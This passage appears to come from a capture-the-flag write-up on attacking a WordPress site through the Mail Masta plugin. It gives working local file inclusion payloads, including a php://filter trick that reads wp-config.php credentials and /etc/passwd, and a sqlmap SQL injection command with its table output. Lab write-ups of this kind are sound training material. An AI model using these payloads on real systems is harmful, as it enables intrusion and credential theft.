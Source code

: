 ### Local File Inclusion

First we'll check out `php/webapps/40290.txt`. The plugin directory from the wpscan result is `/wp-content/plugins/mail-masta/` and we can use one of the vulnerable files from `php/webapps/40290.txt` (I'm using `/inc/campaign/count_of_send.php`) to do Local File Inclusion.

```
http://box.ip/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```

The above query gives us `/etc/passed` so we've confirmed LFI works. Let's look for credentials in configuration files. For WordPress, we'll grab the file `wp-config.php` at `/wp-config` with the payload `../../../../../wp-config.php`

```
http://box.ip/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=../../../../../wp-config.php
```

This query returns nothing. We can try base64-encoding the file with the payload `php://filter/convert.base64-encode/resource=../../../../../wp-config.php`

```
http://box.ip/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=../../../../../wp-config.php
```

With this, we can decode the exfiltrated file and get credentials

```php
/** MySQL database username */
define( 'DB_USER', 'elyana' );

/** MySQL database password */
define( 'DB_PASSWORD', '********' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
```

### SQL Injection

Let's know check out `php/webapps/41438.txt`. According to the exploit, we exploit the page `/wp-content/plugins/mail-masta/inc/lists/csvexport.php` using the parameter `list_id` so let's have `sqlmap` test it for us.

```sh
$ sqlmap -u "http://box.ip/wordpress/wp-content/plugins/mail-masta/inc/lists/csvexport.php?list_id=0&pl=/var/www/html/wordpress/wp-load.php" -p list_id --tables
[snip]
Database: wordpress
[23 tables]
+---------------------------------------+
| wp_commentmeta                        |
| wp_comments                           |
| wp_links                              |
| wp_masta_campaign                     |
| wp_masta_cronapi                      |
| wp_masta_list                         |
| wp_masta_reports                      |
| wp_masta_responder                    |
| wp_masta_responder_reports            |
| wp_masta_settings                     |
| wp_masta_subscribers                  |
| wp_masta_support                      |
| wp_options                            |
| wp_postmeta                           |
| wp_posts                              |
| wp_reflex_gallery                     |
```